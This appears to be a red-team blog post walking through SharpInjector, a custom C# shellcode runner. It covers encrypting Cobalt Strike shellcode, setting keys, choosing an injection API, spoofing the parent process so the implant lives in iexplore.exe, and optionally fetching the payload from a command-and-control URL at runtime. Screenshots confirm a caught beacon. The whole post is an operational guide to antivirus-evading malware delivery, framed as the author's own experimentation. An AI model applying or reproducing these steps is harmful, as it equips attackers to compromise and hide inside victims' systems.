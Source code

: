 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/projects/sharpinjector/thumb.png
share-img: /assets/projects/sharpinjector/thumb.png
tags: [c#, shellcode runner, sharpinjector]
---
```


Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had sucess with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00Fist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

The code repository can be found [here](https://github.com/tw1sm/SharpInjector).

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

1. Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}


2. Clone the project and transfer your `.bin` file over the the system you're generating the payload on

    ~~~
    git clone https://github.com/tw1sm/SharpInjector.git
    ~~~


3. Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
    ```csharp
    public static string Enc(string data)
            {
                string enc = "";
                string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
    ```


4. Build the `ScEncryptor` project 


5. Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

1. Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project
    ```csharp
    // Decryptor func
    public static string Dec(string ciphertext)
    {
        string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
    ```


2. Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#
    ```csharp
    const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
    ```


3. On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
    ```csharp
    string ParentName = "explorer"; // CHANGE THIS: name of parent process
    string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
    ```


4. Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
    ```csharp
    string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
    ```


5. Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}